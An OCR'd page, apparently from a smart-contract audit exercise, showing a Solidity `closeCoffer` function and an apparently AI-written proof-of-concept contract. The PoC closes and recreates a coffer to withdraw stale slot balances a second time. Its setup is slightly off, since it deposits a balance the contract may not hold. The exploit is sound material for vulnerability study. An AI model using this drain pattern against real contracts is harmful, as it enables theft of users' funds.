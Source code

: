 ```solidity
 
    /// @dev Closes the coffer and withdraws all the money from all slots.
	function closeCoffer() external {
    	Coffer storage coffer = coffers[msg.sender];
    	uint256 amountToSend;
    	for (uint256 i = 0; i < coffer.numberOfSlots; ++i) {
        	amountToSend += coffer.slots[i];
    	}
    	coffer.numberOfSlots = 0;
    	(bool success,) = msg.sender.call{value: amountToSend}("");
    	require(success, "Transfer failed");
	}
}

```

#### Response：

Below is a Solidity code Proof of Concept (PoC) that exploits a vulnerability in the closeCoffer function of the provided smart contract. This PoC is intended to demonstrate how an attacker can continuously withdraw funds by recreating the coffer after it has been closed.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    Coffers target;
    
    constructor(address _targetAddress) {
        target = Coffers(_targetAddress);
    }

    // Fallback function to receive funds
    receive() external payable {}

    function attack() external {
        // Initially create a vault with one slot
        target.createCoffer(1);

        // Deposit some amount into the vault
        target.deposit{value: address(this).balance}(address(target), 0);

        // Close the vault, which should set the number of slots to 0
        target.closeCoffer();

        // Recreate the vault and exploit vulnerabilities to reset the number of slots
        target.createCoffer(1);

        // Extract funds from slots that should have been closed when closing the vault
        target.withdraw(0);

        // Transfer funds from the contract back to the attacker (msg. sender)
        payable(msg.sender).transfer(address(this).balance);
    }
}

interface Coffers {
    function createCoffer(uint256 numberOfSlots) external;
    function deposit(address owner, uint256 slot) external payable;
    function withdraw(uint256 slot) external;
    function closeCoffer() external;
}

```